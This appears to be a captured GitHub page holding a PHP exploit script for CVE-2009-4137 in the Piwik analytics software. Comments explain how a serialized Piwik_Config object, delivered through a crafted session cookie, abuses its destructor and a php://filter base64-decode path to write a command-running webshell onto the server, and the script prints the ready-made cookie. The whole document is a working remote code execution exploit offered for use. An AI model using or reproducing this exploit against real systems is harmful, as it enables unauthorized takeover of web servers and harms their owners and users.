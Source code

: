 EXP
---

    <?php
    /*
    We exploit the CVE-2009-4137 by using a php object injection of a Piwik_Config object
    The __destruct() function of this object writes the config to the path specified in the pathIniFileUserConfig variable
    The content of a config file is always prepended by a php showstopper as seen in the following two code-lines of Config.php

    $configFile = "; <?php exit; ?> DO NOT REMOVE THIS LINE\n";
    $configFile .= "; file automatically generated or modified by Piwik; you can manually override the default values in global.ini.php by redefining them in this file.\n";

    To circumvent this, we use php://filter/write=convert.base64-decode and pre-encode our payload. PHP is nice enough to just skip every character that is not part of the base64 alphabet

    We then prepend a single character to correct the padding to our payload and write a simple php webshell.
    A request to the piwik server with the cookie then triggers the exploit

    (You need to url_encode the Cookie if you use manual requests. The '+' and '/' characters of the base64 alphabet must be encoded)
    */

    class Zend_Config {
        protected $_data = array(
            "login" => "root",
            "password" => "rootroot",
            "email" => "root@rootroot.com"
        );
    }

    class Piwik_Config {
        protected $configFileUpdated = true;
        protected $doWriteFileWhenUpdated = true;
        protected $correctCwd = ".";
        protected $pathIniFileUserConfig = "php://filter/write=convert.base64-decode/resource=/var/www/piwik/webshell.php";
        protected $userConfig = array();

        function __construct() { // 'a' for padding
        $this->userConfig["a".base64_encode('<?php system($_GET[\'cmd\']); ?>'."\n")] = new Zend_Config;
        }
    }

    $b64 = base64_encode(serialize(new Piwik_Config));
    $urlEncoded = urlencode($b64);
    echo "Use this cookie";
    echo "PIWIK_SESSID=".$urlEncoded."\n";

    ?>